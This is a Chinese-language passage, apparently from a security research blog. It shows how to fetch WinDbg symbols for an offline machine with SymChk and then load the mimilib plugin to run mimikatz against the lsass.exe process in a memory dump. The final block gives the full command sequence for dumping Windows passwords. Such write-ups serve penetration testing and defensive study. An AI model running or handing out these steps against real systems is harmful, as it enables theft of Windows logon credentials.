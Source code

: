 在无法连接互联网的计算机A上执行：

```
SymChk /om c:\Manifest\man.txt /id c:\test\MEMORY.DMP
```

获得文件`c:\Manifest\man.txt`，将其复制到可连接互联网的计算机B上，在计算机B上执行如下命令：

```
SymChk /im c:\test\man.txt /s srv*c:\mysymbolNew*https://msdl.microsoft.com/download/symbols
```

将会生成新的文件夹`c:\mysymbolNew`，将其复制到计算机A上，在计算机A上启动WinDbg并指定新的符号文件位置为`c:\mysymbolNew`，命令如下：

```
.symfix c:\mysymbolNew
```

测试：

```
.Reload
!process 0 0 lsass.exe
```

加载正常，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-3-27/2-6.png)

### 4.加载mimilib插件

可参考之前的文章[《Mimilib利用分析》](https://3gstudent.github.io/3gstudent.github.io/Mimilib%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)

### (1)方法1

将mimilib.dll保存至WinDbg的winext目录

我的测试环境(Server2012R2x64)保存的路径为：`C:\Program Files\Debugging Tools for Windows (x64)\winext`

启动WinDbg

加载插件的命令如下：

```
.load mimilib
```

### (2)方法2

直接加载mimilib的绝对路径，实例如下：

```
.load c:\test\mimilib
```

综上，搭建配置环境导出口令的完整命令如下：

```
.sympath SRV*c:\mysymbol*http://msdl.microsoft.com/download/symbols
.reload
!process 0 0 lsass.exe
.process 890f4530
.load c:\test\mimilib
.reload
!mimikatz
```
